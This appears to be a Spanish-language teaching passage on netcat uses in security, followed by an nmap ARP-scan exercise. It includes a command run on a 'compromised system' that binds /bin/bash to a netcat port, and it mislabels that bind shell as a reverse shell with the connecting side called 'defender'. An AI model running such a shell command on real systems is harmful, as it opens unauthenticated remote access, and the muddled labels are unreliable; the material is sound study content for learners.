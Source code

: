 nc -l -p 1234 < file.txt | ssh user@target_host "cat > received_file.txt"

- **Shell inversa o shell persistente**: En ciberseguridad, los atacantes pueden utilizar nc para establecer una conexión de shell inversa en un sistema comprometido y obtener acceso al sistema objetivo. Por otro lado, los profesionales de la ciberseguridad también pueden utilizarlo para conectarse de forma segura a sistemas remotos.
- 
  - Atacante: En el sistema comprometido, ejecutar:
  
  nc -lvp 1234 -e /bin/bash

**Defensor: En el sistema desde el que te conectas al atacante**
nc target_host 1234


- **Pruebas de seguridad y penetración**: nc es una herramienta útil para realizar pruebas de seguridad y penetración. Puedes usarlo para probar la respuesta de una aplicación o un servidor a solicitudes específicas y evaluar la seguridad de un sistema.

- **Auditorías de seguridad**: En auditorías de seguridad, puedes utilizar nc para verificar la disponibilidad y accesibilidad de servicios en la red. Esto te ayuda a identificar áreas de vulnerabilidad potenciales.

- **Análisis de tráfico y red**: Puedes usar nc para capturar y analizar tráfico de red en tiempo real. Esto es útil para monitorear la red y detectar actividades sospechosas.

- **Evaluación de cortafuegos y reglas de filtrado**: nc te permite verificar la efectividad de las reglas del cortafuegos al intentar conectarse a través de diferentes puertos y protocolos.

- **Conexiones de red seguras**: Los profesionales de la ciberseguridad pueden utilizar nc para establecer conexiones seguras a través de túneles SSH y realizar tareas de administración de sistemas en sistemas remotos.



## Buscad la forma de utilizar el comando nmap para conocer las máquinas de una red usando ARP Scan y explica en qué se basa su funcionamiento capturando el tráfico generado con Wireshark.

El comando nmap se puede utilizar para escanear una red en busca de máquinas utilizando ARP (Protocolo de Resolución de Direcciones) Scan. Este tipo de escaneo se basa en el uso del protocolo ARP para descubrir las máquinas activas en una red local.

```
sudo nmap -sn 192.168.122.0/24 -PR
```

Si vemos la salida del comando hemos recibido 3 respuestas , esto significa que en nuestra red hay 3 dispositivos :

![](/ParteEnGrupo/img/cli_arp_scan.png)
